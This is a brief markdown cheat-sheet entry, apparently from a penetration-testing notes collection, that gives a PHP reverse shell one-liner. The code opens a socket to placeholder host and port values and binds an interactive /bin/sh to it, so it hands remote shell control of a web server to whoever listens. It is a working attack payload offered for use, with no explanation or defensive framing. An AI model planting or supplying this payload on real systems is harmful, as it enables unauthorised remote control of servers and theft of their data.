 # revshell

### php revshell one-liner
```php
<?php $sock = fsockopen("<local_ip>",<local_port>); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```
---
